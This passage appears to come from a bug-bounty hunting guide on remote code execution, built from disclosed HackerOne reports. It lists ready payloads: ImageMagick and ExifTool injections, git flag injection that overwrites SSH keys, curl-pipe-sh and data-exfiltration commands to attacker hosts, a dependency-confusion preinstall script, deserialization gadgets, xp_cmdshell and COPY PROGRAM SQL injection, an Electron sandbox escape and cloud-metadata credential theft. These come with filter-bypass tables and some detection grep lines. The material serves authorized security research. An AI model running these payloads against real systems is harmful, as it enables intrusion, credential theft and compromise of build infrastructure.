fill 'url(https://example.com/image.jpg";|curl http://attacker/x.sh|sh "-la)'
pop graphic-context
```
```bash
# Harden check / detection
grep -rE 'policy.xml|ghostscript|PS|EPS|PDF|XPS|MVG|MSL' /etc/ImageMagick*/policy.xml
```

### GraphicsMagick `gm convert` argument injection (Imgur #212696)
```
# '/edit/process?a=crop' y parameter appended to `gm convert` argv
y=0 -write |ps${IFS}aux|curl${IFS}http://<your-server>${IFS}-d${IFS}@-
# Full URL:
http://<acct>.imgur.com/edit/process?imageid=...&a=crop&x=0&y=0%20-write%20%7Cps%24%7BIFS%7Daux...
# Confirmation first: append ` -rotate 90` and observe the rotated image
```

### ExifTool DjVu `eval` (GitLab #1154542, CVE-2021-22204 / 22205)
```
# Original report payload — DjVu annotation, backslash-newline closes the quote
(metadata 2 (Copyright "\
" . qx{echo vakzz >/tmp/vakzz} . \
" b ") )
```
```
# Compact public form used by exploit repos
(metadata "\c${system('id')};")
```
```bash
# Reproduce with djvulibre: bzz payload payload.bzz; djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=payload.bzz
exiftool -config configfile '-HasselbladExif<=exploit.djvu' innocent.jpg
# Metasploit uses qx#...# from the original disclosure; payload truncated at ~290 bytes.
```

### Kramdown inline options → `const_get` + `require` (GitLab #1125425)
```
{::options syntax_highlighter="rouge" syntax_highlighter_opts="{formatter: Redis, driver: ../../../../../../../../../../var/opt/gitlab/gitlab-rails/uploads/-/system/user/1/c4119c5b144037f708ead7295cea4dd0/payload.rb\}" /}
~~~ruby
def what?; 42; end
~~~
```
```
# No-known-upload-path variant: load a gem, then abuse its backticked command
{::options syntax_highlighter="rouge" syntax_highlighter_opts="{formatter: Redis, driver: ../get_process_mem\}" /}
~~~ruby
def what?; 42; end
~~~

{::options syntax_highlighter="rouge" syntax_highlighter_opts="{a: '`echo inject > /tmp/inject`', formatter: GetProcessMem\}" /}
~~~ruby
def what?; 42; end
~~~
```
```bash
# Upstream sanity check: patched const_get has second arg false
grep -rn "const_get(formatter" lib/kramdown/converter/syntax_highlighter/rouge.rb
```

### Git flag injection (GitLab #658013, #653125)
```bash
# Authenticated: ref becomes a git flag, git log writes attacker-controlled commit log to disk
curl --header "PRIVATE-TOKEN: $TOKEN" \
 'http://gitlab.example/api/v4/projects/4/search?scope=wiki_blobs&search=page&ref=--output=/tmp/file'

# Unauthenticated variant (needs a public wiki)
'http://gitlab.example/search?scope=wiki_blobs&search=page&project_id=4&repository_ref=--output=/tmp/file2'

# Durable RCE: put an SSH public key in the wiki commit message, then overwrite authorized_keys
...&ref=--output=/var/opt/gitlab/.ssh/authorized_keys
ssh git@gitlab.example -i attacker_key        # → uid=998(git)

# File read via the sibling 'blobs' scope
...&scope=blobs&search=.&ref=--no-index        # dumps gitaly/config.toml into the JSON response

# Commits API variant (#653125): ref_name=--output=/tmp/some_file
```
```
# Defense signal: any git subcommand built from user-controlled argv
git --git-dir REPO log --max-count=1 --output=USER_INPUT
git archive --format tar --prefix=/ COMMIT --output=USER_INPUT
```

### String-built exec (GitLab #1609965, CVE-2022-2185)
```ruby
# Vulnerable
def command
  "gzip -dc #{@archive_path} | wc -c"
end
Open3.popen3(command, pgroup: true)
```
```json
"import_source": "/tmp/ggg;echo lala|tee /tmp/1234;#"
```
```bash
# Bypass the feature flag: source_type is not validated on the controller
curl 'https://gitlab.example/import/bulk_imports.json' \
  -H 'content-type: application/json' -H "x-csrf-token: $CSRF" \
  --data-raw '{"bulk_import":[{"source_type":"project_entity","source_full_path":"group1/project1","destination_namespace":"victim","destination_name":"pwned"}]}'
# Fires after wait_for_archived_file yields (255s); JSON escapes '>' → use |tee / curl|sh.
```

### Dependency confusion (PayPal #925585, Yelp #946409, Uber #1007014)
```json
{
  "name": "pplogger",
  "version": "9999.0.0",
  "scripts": {
    "preinstall": "curl -s http://attacker/$(hostname | base64) || nslookup $(whoami).attacker.oast.pro"
  }
}
```
```python
# Yelp #946409 setup.py canary — exfiltrate origin IP, hostname, cwd via DNS/HTTP
import socket, subprocess
data = subprocess.check_output(['hostname']).strip().encode().hex()
socket.gethostbyname(data + '.attacker.oast.pro')
```
```bash
# Find internal names leaked in public JS bundles
grep -rEo "require\(['\"][^'\"]+['\"]\)" *.js | sort -u
npm view @target-company/internal-package version 2>/dev/null    # empty = squattable name
# Python: --extra-index-url checks public PyPI too and prefers the higher version
pip install --extra-index-url https://internal.example.com/simple library
# Mobile agent with an unclaimed dependency (Aries #1763343): publish "aries-bifold" on the public repo
```

### Deserialization & template gadgets
```yaml
# SnakeYAML
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[ !!java.net.URL ["http://attacker.com/exploit.jar"] ]]
]
# Ruby Psych
--- !ruby/object:Gem::Installer
i: x
```
```bash
java -jar ysoserial.jar CommonsCollections5 'curl http://attacker/$(whoami)' | base64
python -c "import pickle,os; print(pickle.dumps(os.system))"   # __reduce__ gadget
```
```
# RubyGems #274990 / DoD #248116: Marshal gadget via reachable class to_s/bytesize
# JBoss JMXInvokerServlet (#153026, #221294): POST serialized CommonsCollections payload
# Telerik CVE-2019-18935 (#838196, #913695): upload malicious assembly to RadAsyncUpload handler
# RDoc .rdoc_options / cache (#2438265, #1187477): unrestricted YAML object restoration on `rdoc`
# Rails CookieStore + committed secret_key_base (#134321): sign a cookie containing an eval gadget
# MyBB GMP unserialize type confusion (#198734): a:1:{i:0;C:3:"GMP":...} crafted object
```

### SQLi → OS command execution (QIWI #816254, Starbucks #592400)
```xml
<REQUEST OBJECT_CLASS="TScenObject" ACTION="ScenObjects"
 SCEN_ID="33; DECLARE @command varchar(255); SELECT @command='ping UNIQUE.burpcollaborator.net'; EXEC Master.dbo.xp_cmdshell @command; SELECT 1 as 'STEP'"
 ExpectSigned="No" INT_SOFT_ID="DA61D1CE-757F-44C3-B3F7-11A026C37CD4" POINT_CODE="tzhr" lang="en"></REQUEST>
```
```sql
'; COPY users FROM PROGRAM 'curl http://attacker/x.sh | sh'; --    -- Postgres variant
```

### Unrar / archive plugin command injection (Nextcloud #546753)
```
nameOfFile=sample.rar"|curl www.attacker.com:443/data?id=$(id | base64)|"&directory=&external=0
# → unrar line becomes `unrar ... sample.rar"|curl ...|" ...` → command substitution exfiltrates id
```

### OGNL / expression injection (Confluence CVE-2021-26084, DoD #1327701)
```
POST /pages/createpage-entervariables.action?SpaceKey=x HTTP/1.1
Content-Type: application/x-www-form-urlencoded
# OGNL expression in a form field executes `cat /etc/passwd` / arbitrary command
```

### Velocity template injection (DoD #538771)
```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Content-Type: application/json
{"contentId":"12345","macro":{"name":"widget","body":"","params":{"url":"https://www.youtube.com/watch?v=wHEHYJpCkpg","width":"300","height":"200","_template":"file://../"}}}
```

### Apache Flink jar/plan endpoint (Aiven #1418891)
```
# Unrestricted GET jars/{jar_id}/plan loads classpath Java classes with specified arguments
# Run a SQL job → obtain jar_id → GET plan → supply arguments → reverse shell
```

### Jenkins script console → AWS IMDS (DoD #2083771)
```
POST to /jenkins/script and run:
println "curl http://169.254.169.254/latest/meta-data/iam/security-credentials/AmazonSSMRoleForInstancesQuickSetup".execute().text
# → {"Code":"Success","AccessKeyId":"[REDACTED]","SecretAccessKey":"...","Token":"..."}
# The exposed console is the RCE; IMDS turns it into cloud-account compromise.
```

### Grafana SMTP CRLF → image-renderer code execution (Aiven #1200647)
```
# SMTP password config accepts newline characters; set non-exported config variables
# CRLF-inject `rendering_args` of the grafana image renderer, then trigger rendering:
PUT /v1/project/PROJECT_NAME/service/GRAFANA_INSTANCE_NAME HTTP/1.1
# ... Authorization: aivenv1 AIVEN_TOKEN_HERE ...
# Browse to https://INSTANCE_SUBDOMAIN.aivencloud.com/render/x to fire the modified renderer args.
```

### Airflow BashOperator `run_id` injection (CVE-2022-40127, #1776476)
```
# example_bash_operator.py: bash_command='echo "run_id={{ run_id }} | dag_run={{ dag_run }}"'
# DAGs menu → Trigger DAG w/ config → set run_id to:
`touch /tmp/success`
# Arbitrary OS command in the worker context.
```

### WebLogic XMLDecoder sleep probe (CVE-2017-10271, DoD #576887)
```
POST /wls-wsat/RegistrationPortTypeRPC HTTP/1.1
content-type: text/xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
 <soapenv:Header>
  <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
   <java class="java.beans.XMLDecoder">
    <object class="java.lang.Thread" method="sleep"><long>12000</long></object>
   </java>
  </work:WorkContext>
 </soapenv:Header><soapenv:Body/>
</soapenv:Envelope>
# ~12s response = XMLDecoder deserialization confirmed; swap sleep for ProcessBuilder.
```

### Fastify schema property injection / MCP exec() (#532667, #3557138)
```json
// fastify 2.2.0: control one serialization-schema property name → RCE in server context
// aws-diagram-mcp-server: user Python reaches exec(code, namespace) with os + __builtins__
```
```bash
# For MCP exec() sinks, code is executed directly — confirm with a DNS callback before a shell.
```

### Electron / WebView client RCE (Slack #783877, TikTok #1065500)
```javascript
// Slack: no contextIsolation → overwrite delegates, leak BrowserWindow, re-enable nodeIntegration
window.desktop.delegate = {}
window.desktop.delegate.canOpenURLInWindow = () => true
window.desktop.window = {}; window.desktop.window.open = () => 1
bw = window.open('about:blank')                       // leaks BrowserWindow constructor
nbw = new bw.constructor({show: false, webPreferences: {nodeIntegration: true}})
nbw.webContents.executeJavaScript('this.require("child_process").exec("calc")')
```
```javascript
// TikTok: exposed JS bridge opens internal deep links that reject external hosts
window.ToutiaoJSBridge.invokeMethod(JSON.stringify({
  "__callback_id":"0","func":"openSchema","__msg_type":"callback",
  "params":{"schema":"aweme://wiki?url=https://m.tiktok.com/"},
  "JSSDK":"1","namespace":"host","__iframe_url":"http://iframe.attacker.com/"
}));
// Validator checks hostname not scheme → javascript://m.tiktok.com/%0aalert(1); Zip Slip → app_lib/.../libjsc.so → RCE
```

### Source-review grep bundle
```bash
grep -rn "exec\|system\|popen\|Open3\|spawn\|eval\|const_get\|unserialize\|Marshal\.load" --include="*.rb" --include="*.py" .
grep -rn 'html="true"' --include="*.xml" panorama/   # Valve Panorama XSS → RCE (#631956)
grep -rn "contextIsolation\|nodeIntegration\|addJavascriptInterface\|evaluateJavascript" .
grep -rn "pull_request_target\|npm ci\|npm install" .github/workflows/   # #3619287, #3619288
```

---

## Common Root Causes

1. **Content sniffing beats the extension allowlist.** Libraries choose the parser from file magic, not the uploaded filename. A `.jpg` can be DjVu, PostScript, or MVG (#1154542, #403417, #365271, #422944).

2. **String commands at the exec boundary.** `Open3.popen3("... #{input} ...")` and `Runtime.exec(string)` let shell metacharacters become syntax; passing an array of argv would not. #1609965, #546753, #303061, #73567.

3. **Treating "ref", "path", "source", "y", "juid" or "filter" as data when the tool reads it as a flag.** Any value that eventually becomes an argument to `git`, `tar`, `convert`, `gm`, or `gs` needs `--` termination and a leading-dash check (#658013, #653125, #212696, #914392).

4. **Safe-by-default parser made unsafe by a "feature."** Kramdown inline options, ExifTool's DjVu C-escape `eval`, Rouge's `formatter` option, Ghostscript delegates, Smarty `{php}` tags, Velocity `_template`, PrimeFaces EL — the dangerous capability exists and is reachable through normal input (#1125425, #1154542, #164224, #538771, #248116).

5. **Internal namespace assumed private.** Private npm/PyPI/gem names are visible in JS bundles and public repos; registries do not reserve names for internal use, and higher public versions win (#925585, #946409, #1007014, #1763343).

6. **Trusted low-privilege surfaces reaching privileged primitives.** Any user with wiki push access or any image uploader reaches server-side `require`/`eval`; a public search form reaches `git log --output`; a profile field reaches a rendered admin email (#783877-style stored payload, #125980, #658013).

7. **Assuming a file write is harmless.** Writing into a startup/webroot/driver/SSH directory is execution; the missing link is always "where does the written file get interpreted?" (#733072, #2995025, #1065500, #519220, #1072832).

8. **Client-side sandboxes treated as security boundaries.** Electron without `contextIsolation` and WebViews with `addJavascriptInterface` turn one XSS into host-level code execution (#783877, #1065500, #1016966, #1001255, #1078002).

9. **Blind SQLi reported as the endpoint.** Without `xp_cmdshell`/`COPY PROGRAM`/`UTL_HTTP`, it is not RCE. The database role and installed extensions decide severity (#816254, #592400).

10. **Access control that is only a redirect or a feature flag.** `/admin/*` upload endpoints that merely redirect on auth failure and "hidden" import endpoints behind flags expose otherwise unreachable exec sinks (#683957, #1609965).

11. **Public exposure of management surfaces.** Jenkins script console, JMX, Groovy consoles, Solr, Jenkins, unconfigured Portainer, and non-standard-port WSDLs turn a web app into an OS-command target with no auth (#2083771, #1456063, #672243, #962013, #1332433, #592400).

12. **Unbounded transforms in native parsers.** 2x character expansion into a fixed 387-byte `quote_name()` buffer (mariadb-dump #3788482), unchecked indices (#513154, #807772), and `ShellExecute` path truncation (#544096) convert malformed input into control-flow hijack.

13. **CI workflows that execute untrusted PR code with secrets.** `pull_request_target` + `npm ci` + checkout of the fork's branch runs attacker code in a privileged context and exfiltrates PATs (#3619287, #3619288).

---

## Bypass Techniques

### Extension / content-type mismatch
```
uploaded: exploit.jpg    actual content: DjVu ANT chunk  → ExifTool DjVu parser
uploaded: test.jpg       actual content: %!PS PostScript  → Ghostscript via ImageMagick
uploaded: rce.gif        actual content: PostScript/EPS   → ImageMagick (Basecamp #365271)
uploaded: logo.png       actual content: push graphic-context / MVG
# `identify` and `file` are themselves vulnerable/confused — do not trust them as validators.
```

### GraphicsMagick/ImageMagick argument injection (Imgur #212696)
```
# Append extra argv to a crop/resize parameter instead of replacing the whole value
y=0 -write |ps${IFS}aux|curl${IFS}http://YOUR-SERVER${IFS}-d${IFS}@-
# Detect the backend first with a benign delegate flag:
y=0 -rotate 90        # image visibly rotates → gm convert is reachable
# ${IFS} replaces spaces when a WAF strips them; pipe through curl to avoid needing `>`.
```

### Dependency confusion
```
# Public registry wins: install with no higher version pinned internally
"pplogger": "^0.2"  → publish pplogger 9999.0.0 to npmjs.org
"yelp-cgeom"        → publish setup.py canary to PyPI (#946409)
"aries-bifold"      → publish to the public agent registry (#1763343)
# pytest: --extra-index-url checks PyPI as well; use --index-url to pin single source
# If @company/* is monitored, hunt unscoped internal names in bundles and CI logs
# GitHub Actions pull_request_target + npm install on fork PRs → RCE + secret exfil (#3619287, #3619288)
# Exfiltrate via DNS (no outbound HTTP needed): data.hex.YOUR-SERVER.oast.pro
```

### Git flag / argument injection
```
ref=--output=/var/opt/gitlab/.ssh/authorized_keys    # write via git log --output
ref=--no-index                                        # arbitrary file read via blobs scope
ref=--exec=<cmd>                                      # git flag that executes a command
--upload-pack=<cmd> / --receive-pack=<cmd>            # classic git transport argument injection
repository_ref=--output=/tmp/file2                    # unauthenticated search variant
ref_name=--output=/tmp/some_file                      # Commits API variant (#653125)
# Always try the unauth search endpoint variant; always check the sibling blobs scope.
```

### Kramdown / Rouge option abuse
```
# const_get accepts any top-level class name matching /\A[[:upper:]][[:alnum:]_]*\z/
formatter: Redis, driver: ../../../../../../tmp/payload.rb   # require_relative traversal
formatter: GetProcessMem, a: '`id`'                          # gem constructor runs backticks
# Other inline options: template (often forbidden), input (only via Document.new)
# Patch tells you the gadget: const_get(formatter, false) = namespace-restricted
```

### ExifTool DjVu escaping
```
# Sanitizer strips $ and @ but a backslash + newline closes the quote before eval
(metadata 2 (Copyright "\
" . qx{COMMAND} . \
" b ") )
# qx#...# delimiter avoids quote collisions; escape backslashes twice for printf stagers.
```

### Deserialization gadgets
```
ysoserial CommonsCollections* / Jdk7u21 / Spring1  → Runtime.exec (Java/JBoss)
Ruby: Gem::Installer / Marshal.load from cookies or cache (#274990, #248116, #134321)
PHP: __destruct / __wakeup gadget chains in unserialize() (#410237, #407552, #876708)
GMP: C:3:"GMP" type confusion via crafted serialized object (#198734)
Python: pickle __reduce__ → os.system
.NET: ViewState / TypeConfuseDelegate (#1391576)
Telerik CVE-2019-18935: malicious DLL upload to RadAsyncUpload (#838196, #913695)
RDoc .rdoc_options: YAML object injection via crafted repository (#2438265, #1187477)
WebLogic XMLDecoder: SOAP WorkContext with Thread.sleep then ProcessBuilder (#576887)
```

### Null-byte / path / write-primitive bypasses
```
# Null byte truncates extension validation (#2054184)
shell.php\x00.jpg        → server sees .jpg, filesystem writes .php
# Path traversal into SSH key (#733072)
/api/v4/projects/2/packages/maven/a%2fb%2fc/..%2f..%2f.ssh%2fauthorized_keys  (--path-as-is)
# Zip Slip into native library dir (#1065500) — writes app_lib/.../libjsc.so
# Page-cache ERB write via encoded path (#519220)
/books/1%2f%2e%2e%2f%2e%2e%2f%2e%2e%2ftest
# Windows path truncation: 256-byte buffer vs MAX_PATH 260 → .vmt becomes .js via ShellExecute (#544096)
# Tomcat CVE-2025-24813 (#3031518): write-enabled Default Servlet + partial PUT + file session persistence
```

### Auth / redirect / feature-flag / config bypasses
```
# Interrupt the /admin/* login redirect so the upload handler still runs (#683957)
# Controller accepts source_type=project_entity even when the BulkImports flag is off (#1609965)
# JSON serializers turn '>' into \u003c — use |tee / curl |sh instead of redirection
# CRLF in an SMTP password field sets non-exported config (Grafana rendering_args, #1200647)
# Base64 the command to smuggle shell metacharacters past imageResize filters (#303061)
# Wait for delayed execution: import validators fire after retries (~255s), not on request
# Default creds on staging/POC hosts bypass WAF and auth (#881548, #1677047)
```

### Memory corruption (Valve / curl / mariadb-dump family)
```
unchecked weapon id → OOB array access (#513154); OOB reads in message handlers (#807772)
unsanitized entity ID in EntityMsg (#584603); Server Info buffer overflow (#470520)
malformed .BSP Access Violation (#351014); signedness in ClassInfo handler (#876719)
quote_name() 2x expansion into 387-byte stack buffer (#3788482)
strcpy() overflow (#2871792); Exim off-by-one (#322935); mruby UAF/to_ary (#181321, #3679660)
# Trigger: connect victim to an attacker-controlled game/DB server — no auth required.
```

### WAF / parser quirks
```
# Feature-flag bypass, delayed execution and JSON escaping — see above
# Partial-triage bounties ($1000) are common for delayed chains — keep the PoC deterministic.
# A 10-second sleep confirms blind execution but is not sufficient proof of control (#838196).
```

---

## Gate 0 Validation

Before writing the report, confirm all three:

1. **What can the attacker DO right now?**
   - Show `id`/`whoami` output, a file created with attacker-chosen content at a known path, a reverse-shell connection, or an OOB DNS/HTTP hit with a unique marker tied to *this* payload.
   - "The file was processed," "the error message changed," "the package downloaded," or "the server slept for 10 seconds" is not execution by itself. Dependency confusion needs a callback from the target's own build infrastructure; a canary on your own machine is worthless.
   - For native crashes, demonstrate control of the corrupted index/pointer, not just a segfault. For blind SQLi, show `xp_cmdshell`/`COPY PROGRAM` firing, not just a DNS ping from a SQL function.
   - If RCE lands on a cloud host, show the IMDS credential response (#2083771, #422944) — that is the blast radius.

2. **What does the victim LOSE?**
   - Name the crown jewel: production build credentials and signing keys (dependency confusion), all source + CI/CD secrets and root SSH (GitLab/GHES), AWS IAM keys from `169.254.169.254` (kitcrm #422944, DoD #2083771), the private messages/tokens of every user of a desktop client (Slack #783877), or full control of a player's PC (Valve #470520).
   - Quantify: unauthenticated vs. low-priv, one host vs. build farm, transient command vs. persistent key/library.

3. **Can it be reproduced in 10 minutes from scratch?**
   - Ship: (a) one HTTP request or deep link, (b) one payload file, (c) one listener. If execution takes 255 seconds (GitLab import) or needs a user click (Slack/Valve/TikTok), state it explicitly and remove other flakiness.
   - A second person must get the same command output or callback with no prior state. Version/binaries must be included.

---

## Real Impact Examples

### Scenario A: One `package.json` → the entire build farm (PayPal #925585, Yelp #946409)
A public repo exposed internal dependency names such as `pplogger`. Publishing a higher-versioned public package with a `preinstall` script caused PayPal's development and build systems to fetch and execute attacker code; the canary exfiltrated hostnames as hex-encoded DNS queries to an authoritative nameserver. Yelp #946409 demonstrated the same class on PyPI: its `setup.py` callback reported the build server's originating IP (`54.71.19.248`), hostname (`10-81-21-60-uswest2bdevc...`) and working directory. Because package managers resolve public names by default and prefer higher versions, no developer interaction was needed. Impact: arbitrary code execution on internal build infrastructure with access to production deployment credentials.

### Scenario B: "Just an image upload" → reverse shell on a production web node (GitLab #1154542, Semrush #403417, Basecamp #365271)
GitLab Workhorse forwarded any `.jpg`/`.jpeg`/`.tiff` to ExifTool to strip tags. ExifTool sniffed content and selected its DjVu parser; a crafted annotation with a backslash-newline escaped the sanitizer and reached Perl `eval`, executing `qx{...}`. An ordinary snippet attachment was enough to open a reverse shell on `web-09-sv-gprd` (bounty $20,000). The older, simpler version of the same class: Semrush's report-logo upload fed PostScript to an unpatched ImageMagick/Ghostscript pair; a `%pipe%` OutputFile directive spawned a reverse shell, and the attacker confirmed they were on a Semrush host by reading `/etc/hosts` and fetching known report files. Basecamp #365271 accepted PostScript/EPS renamed to `.gif` in a profile image and awarded $5,000 for the same ImageMagick/Ghostscript pattern.

### Scenario C: Four client bugs chained into one-click mobile RCE (TikTok #1065500)
A URL-fragment injection in `tiktok://webview` produced universal XSS via `evaluateJavascript` string concatenation. The exposed `ToutiaoJSBridge.openSchema` method opened internal deep links; `aweme://wiki` validated the hostname but not the scheme, so `javascript://m.tiktok.com/%0a...` executed script. That started a protected test activity with a Zip Slip that wrote past its extraction directory into `app_lib/.../arm64-v8a/libjsc.so`; relaunching a helper activity loaded the malicious native library. Impact: "anything TikTok can do on your device" with a single crafted link sent to a victim's inbox.

### Scenario D: A crop parameter → server-side command execution (Imgur #212696)
The `y` coordinate of `/edit/process?a=crop` was appended to a GraphicsMagick `gm convert` command line. The researcher first confirmed the processor by appending a harmless ` -rotate 90` and watching the image rotate, then escalated to `y=0 -write |ps${IFS}aux|curl${IFS}http://attacker -d @-`, making GraphicsMagick's hacker-friendly `-write` handling of `|`-starting filenames pipe command output to the attacker. This demonstrates the general rule from the mined data: a filter/sort/crop parameter (153 reports) is often the fastest path to command execution, and a benign transform flag is the safest first probe.

### Scenario E: A misconfigured admin console → cloud-account compromise (DoD #2083771, Aiven #1200647)
A DoD host exposed `/jenkins/script`, a Groovy console that executes system commands. The researcher ran `println "curl http://169.254.169.254/latest/meta-data/iam/security-credentials/AmazonSSMRoleForInstancesQuickSetup".execute().text` and received a live AWS-HMAC access key, secret key and session token — converting "an open Jenkins console" into management of "various AWS resources, create and delete resources, read and write data in AWS services." Aiven #1200647 shows the same pattern through configuration rather than a console: CRLF in a Grafana SMTP password rewrote the image renderer's `rendering_args`, and browsing `/render/x` executed the attacker's command. In both cases the app's own privileged chokepoint — a script console or a renderer config — was the real crown jewel.

---

## Disclosed Report Citations

All IDs below are real HackerOne reports present in the study pack or the top RCE list; none are invented.

1. **Valve — RCE on Steam Client via buffer overflow in Server Info** ([H1 #470520](https://hackerone.com/reports/470520)) — native stack buffer overflow in the UDP server-query parser, triggered via a `POC.html` iframe to the server browser, 2018 — $0.
2. **X / xAI — Potential pre-auth RCE on Twitter VPN** ([H1 #591295](https://hackerone.com/reports/591295)) — Pulse Secure CVE-2019-11510 pre-auth file read → CVE-2019-11539 post-auth command injection (DEVCORE), 2019 — $20,160.
3. **PayPal — RCE via npm misconfig: installing internal libraries from the public registry** ([H1 #925585](https://hackerone.com/reports/925585)) — dependency confusion, `preinstall` canary exfiltrating hostname as hex-encoded DNS, 2020 — $30,000.
4. **Shopify — H1514 RCE on kitcrm using bulk customer update of Priority Products** ([H1 #422944](https://hackerone.com/reports/422944)) — ImageTragick `%pipe%python` reverse shell → AWS IMDS credential theft, 2018 — $0.
5. **Semrush — RCE on www.semrush.com/my_reports on Logo upload** ([H1 #403417](https://hackerone.com/reports/403417)) — Ghostscript `-dSAFER` bypass via PostScript `%pipe%` OutputFile saved as `test.jpg`, 2018 — $0.
6. **GitLab — Git flag injection: local file overwrite to remote code execution** ([H1 #658013](https://hackerone.com/reports/658013)) — argument injection into `git` via `ref`, SSH-key write to `authorized_keys`, 2019 — $12,000.
7. **GitLab — RCE when removing metadata with ExifTool** ([H1 #1154542](https://hackerone.com/reports/1154542)) — DjVu annotation Perl `eval` → `qx{}`, reverse shell on `web-09-sv-gprd`, 2021 — $20,000.
8. **GitLab — RCE via unsafe inline Kramdown options when rendering certain Wiki pages** ([H1 #1125425](https://hackerone.com/reports/1125425)) — `const_get`/`require` via `syntax_highlighter_opts`, 2021 — $20,000.
9. **GitLab — RCE via the DecompressedArchiveSizeValidator and Project BulkImports** ([H1 #1609965](https://hackerone.com/reports/1609965)) — string-built `Open3.popen3` behind a feature flag, CVSS 9.9, 2022 — $33,510.
10. **GitLab — RCE via github import** ([H1 #1672388](https://hackerone.com/reports/1672388)) — Octokit/Sawyer object type confusion → Redis command injection via cache, 2021 — $0.
11. **GitLab — Path traversal, to RCE** ([H1 #733072](https://hackerone.com/reports/733072)) — Maven-registry path traversal writing `.ssh/authorized_keys`, then `ssh git@...`, 2019 — $12,000.
12. **GitLab — Git flag injection leading to file overwrite and potential RCE** ([H1 #653125](https://hackerone.com/reports/653125)) — Commits API `ref_name=--output=...` → `git log --output`, reproduced with ~32 connections, 2019 — $3,500.
13. **Slack — Remote Code Execution in Slack desktop apps + bonus** ([H1 #783877](https://hackerone.com/reports/783877)) — Electron `contextIsolation` absence + HTML injection → re-enabled `nodeIntegration`, 2020 — $0.
14. **Imgur — RCE by command-line argument injection to `gm convert` in `/edit/process?a=crop`** ([H1 #212696](https://hackerone.com/reports/212696)) — `-write |ps${IFS}aux|curl...` pipe via the `y` parameter, confirmed with `-rotate 90`, 2017 — $0.
15. **Imgur — Remote Code Execution on Git.imgur-dev.com** ([H1 #206227](https://hackerone.com/reports/206227)) — unpatched GitHub Enterprise Server 2.8.7 with a leaked Rails static key, 2017 — $0.
16. **Yelp — RCE on build server via misconfigured pip install** ([H1 #946409](https://hackerone.com/reports/946409)) — PyPI dependency confusion on `yelp-cgeom`; `setup.py` callback returned origin IP `54.71.19.248`, 2020 — $0.
17. **Uber — RCE via npm misconfig: installing internal libraries from the public registry** ([H1 #1007014](https://hackerone.com/reports/1007014)) — dependency confusion with install-script canaries, 2020 — $9,000.
18. **Uber — uber.com may RCE by Flask Jinja2 Template Injection** ([H1 #125980](https://hackerone.com/reports/125980)) — profile name `{{ '7'*7 }}` reflected as `7777777` in a support email, 2016 — $10,000.
19. **Unikrn — Urgent: Server side template injection via Smarty template allows for RCE** ([H1 #164224](https://hackerone.com/reports/164224)) — `{php}` tags in profile fields → `file_get_contents('/etc/passwd')` on invite, 2016 — $0.
20. **Basecamp — Remote code execution on Basecamp.com** ([H1 #365271](https://hackerone.com/reports/365271)) — PostScript/EPS renamed to `rce.gif` → ImageMagick/Ghostscript, 2018 — $5,000.
21. **Valve — Unchecked weapon id in WeaponList message parser on client leads to RCE** ([H1 #513154](https://hackerone.com/reports/513154)) — OOB array write via `rgWeapons[wp->iId]` with `iId` in `[-128,128)`, 2017 — $3,000.
22. **Valve — OOB reads in network message handlers leads to RCE** ([H1 #807772](https://hackerone.com/reports/807772)) — missing upper bound on entity index in CS:GO `GlowPropTurnOff`, 2018 — $7,500.
23. **Valve — Panorama UI XSS leads to Remote Code Execution via Kick/Disconnect Message** ([H1 #631956](https://hackerone.com/reports/631956)) — `html="true"` layout files + unlimited `KickClient()`, 2019 — $0.
24. **TikTok — Multiple bugs leads to RCE on TikTok for Android** ([H1 #1065500](https://hackerone.com/reports/1065500)) — universal XSS → `openSchema` → `javascript:` scheme → Zip Slip to `libjsc.so`, 2021 — $0.
25. **U.S. Dept Of Defense — Remote Code Execution and AWS IAM Credentials Exfiltration** ([H1 #2083771](https://hackerone.com/reports/2083771)) — exposed `/jenkins/script` Groovy console running `.execute()` to curl IMDS credentials, 2023 — $0.
26. **Aiven Ltd — Grafana RCE via SMTP server parameter injection** ([H1 #1200647](https://hackerone.com/reports/1200647)) — CRLF injection rewrites image-renderer `rendering_args`; triggered via `/render/x`, 2021 — $5,000.
27. **Aiven Ltd — Apache Flink RCE via GET jar/plan API Endpoint** ([H1 #1418891](https://hackerone.com/reports/1418891)) — unauthenticated `jars/{jar_id}/plan` class loading with attacker arguments, 2021 — $6,000.
28. **U.S. Dept Of Defense — Remote Code Execution in a DoD website** ([H1 #248116](https://hackerone.com/reports/248116)) — PrimeFaces 5.3 Expression Language injection via a URL, DNS callback proof, 2017 — $0.
29. **drchrono — XML Parser Bug: XXE over which leads to RCE** ([H1 #55431](https://hackerone.com/reports/55431)) — C-CDA XML upload with external entity exposing `/etc/passwd`, 2015 — $0.
30. **Internet Bug Bounty — CVE-2024-27281: RCE vulnerability with .rdoc_options in RDoc** ([H1 #2438265](https://hackerone.com/reports/2438265)) — YAML object restoration from a crafted repository's `.rdoc_options`, 2024 — $4,860.

---

## Related Skills & Chains

- **`hunt-ssrf`** — SSRF is the delivery half of many RCEs. Chain: SSRF → `169.254.169.254/latest/meta-data/iam/security-credentials/` → cloud creds; or SSRF → `gopher://redis:6379/_CONFIG SET dir /var/spool/cron` → cron write → RCE. Shopify kitcrm (#422944) shows the reverse direction: RCE → IMDS credential theft. QIWI #713900 and Aiven #1547877 show SSRF reaching internal Confluence/Jolokia RCE.
- **`hunt-sqli`** — Blind SQLi alone is Medium; `xp_cmdshell`/`COPY FROM PROGRAM` makes it Critical (QIWI #816254, Starbucks #592400). Cross-reference the database-role and installed-extensions check before scoring.
- **`hunt-file-upload`** — Upload validation bypass tables pair directly with ImageTragick (Semrush #403417, Basecamp #365271), ExifTool (GitLab #1154542), and webshell/null-byte writes (#84374, #2054184). Always test content/extension mismatch, not just polyglots.
- **`hunt-ssti`** — Kramdown (#1125425), Jinja2 (Uber #125980), Smarty (#164224), Velocity (#538771), EJS (#3122019), Freemarker and Liquid (#98259) are template engines whose option/eval surfaces instantiate classes or reach `os.popen`.
- **`hunt-deserialization`** — ysoserial/Java, `Marshal.load` (#274990), PHP `unserialize` (#407552), pickle, .NET ViewState (#1391576), GMP type confusion (#198734) and Telerik CVE-2019-18935 (#838196) are the injection-to-execution bridge. Many "image-processing-tagged" reports in the study pack are actually deserialization RCEs (#221294).
